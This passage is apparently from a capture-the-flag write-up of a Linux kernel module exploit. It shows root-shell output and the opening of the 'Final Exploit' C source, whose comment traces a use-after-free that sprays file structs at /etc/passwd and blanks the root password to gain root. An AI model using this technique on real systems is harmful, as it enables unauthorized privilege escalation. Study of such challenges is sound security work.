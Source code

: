 ```
user:x:1000:1000:user:/home/user:/bin/sh
[+] Corruption process has been completed. Waiting for a root shell...
/home/user # id
uid=0(root) gid=0(root) groups=0(root)
/home/user # ls -l /flag
----------    1 root     root            27 Jun 22 11:03 /flag
/home/user # cat /flag
CTF{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}
```

## Final Exploit

```c
/* Tested on Linux 6.6.34

/home/user $ id
uid=1000(user) gid=1000(user) groups=1000(user)
/home/user $ ./exploit
[+] Fork & wait for success
[+] Opening LKM
[+] Opening tmp file
[+] Allocating some bytes into tmp file to prevent bus error
[+] Mapping tmp file into memory
[+] Limiting max amount of file descriptors
[+] RLIMIT_NOFILE set to:
[+]	rlim_cur = 0
[+]	rlim_max = 4096
[+] Forcing file struct release. Expecting EBADF:
exploit: [!] IOCTL_CTF_INSTALL_FILE failed: Bad file descriptor
exploit: [!] IOCTL_CTF_INSTALL_FILE failed: Bad file descriptor
[+] Extending max amount of file descriptors
[+] RLIMIT_NOFILE set to:
[+]	rlim_cur = 4096
[+]	rlim_max = 4096
[+] Spraying file structs pointing to /etc/passwd
[+] Checking for successful UAF. Content should be from /etc/passwd:
root:x:0:0:root:/root:/bin/sh
user:x:1000:1000:user:/home/user:/bin/sh
[+] Overwriting /etc/passwd root entry. Content should have been modified:
root::0:0:root:/root:/bin/ash
user:x:1000:1000:user:/home/user:/bin/sh
[+] Corruption process has been completed. Waiting for a root shell...
/home/user # id
uid=0(root) gid=0(root) groups=0(root)
/home/user #

*/

#define _GNU_SOURCE
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>
#include <fcntl.h>
#include <unistd.h>
#include <errno.h>
#include <err.h>
#include <sys/ioctl.h>
#include <string.h>
#include <pthread.h>
#include <sys/time.h>
#include <sys/resource.h>
#include <sys/types.h>
#include <sys/mman.h>
```
